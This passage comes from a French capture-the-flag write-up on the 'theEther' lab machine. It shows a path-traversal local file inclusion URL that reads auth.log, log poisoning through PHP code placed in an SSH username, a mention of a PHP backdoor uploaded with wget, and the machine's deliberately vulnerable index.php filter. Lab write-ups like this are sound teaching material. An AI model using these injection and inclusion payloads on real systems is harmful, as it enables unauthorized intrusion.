 Les dossiers *public\_html* sont souvent utilisés à l'intérieur du home d'un utilisateur donc j'ai essayé de retrouver ce username en brute-forçant le répertoire au dessus, en essayant *ether*, *theether*, etc, sans succès.  

Après coup il apparaît que je n'étais pas si loin... dommage :(  

Que la lumière soit
-------------------

Décu mais pas désemparé j'ai testé d'inclure d'autres fichiers du système et j'obtiens finalement un résultat intéressant avec *auth.log* :  

```plain
http://192.168.1.10/?file=../../../../../../../../../../../../var/log/auth.log
```

Ce fichier de log enregistre les infos d'ouverture de session, sudo et aussi les échecs.  

La seule (légère) difficulté consiste alors à injecter du code PHP dans ce fichier de log. Cela se fait facilement en spécifiant un utilisateur très particulier à SSH :)  

```plain
ssh -l '<?php phpinfo() ?>' 192.168.1.10
```

Une backdoor PHP uploadée plus tard (*wget* est présent sur le système), on se rend compte qu'on est dans le dossier */var/www/html/theEther.com/public\_html*.  

Pas dans un dossier utilisateur donc mais le répertoire d'au dessus contenait bien theether.  

Il y a les fichiers suivants dans le dossier :  

```plain
total 11336
drwxrwxr-x 4 root     www-data        4096 Jan 14 06:51 .
drwxr-xr-x 5 root     root            4096 Oct 23 18:31 ..
-rwxrwxr-x 1 root     www-data        5891 Oct 23 19:27 about.php
drwxrwxr-x 3 root     www-data        4096 Oct 23 18:02 images
-rwxrwxr-x 1 root     www-data        6495 Oct 23 20:48 index.php
drwxrwxr-x 4 root     www-data        4096 Oct 23 18:02 layout
-rwxrwxr-x 1 root     www-data        5006 Oct 23 18:02 licence.txt
-rwxrwxr-x 1 root     www-data       10641 Oct 23 19:26 research.php
-rwsrwsr-x 1 root     evilscience 11527272 Nov 23 19:41 xxxlogauditorxxx.py
```

Pour info voici le filtrage qui nous embêtait dans *index.php* :  

```php
<?php
$file = $_GET["file"];

$file = str_ireplace("etc","", $file);
$file = str_ireplace("php:","", $file);
$file = str_ireplace("expect:","", $file);
$file = str_ireplace("data:","", $file);
$file = str_ireplace("proc","", $file);
$file = str_ireplace("home","", $file);
$file = str_ireplace("opt","", $file);

if ($file == "/var/log/auth.log") {
header("location: index.php");
}
else{
include($file);
}

include($file);
?>
```
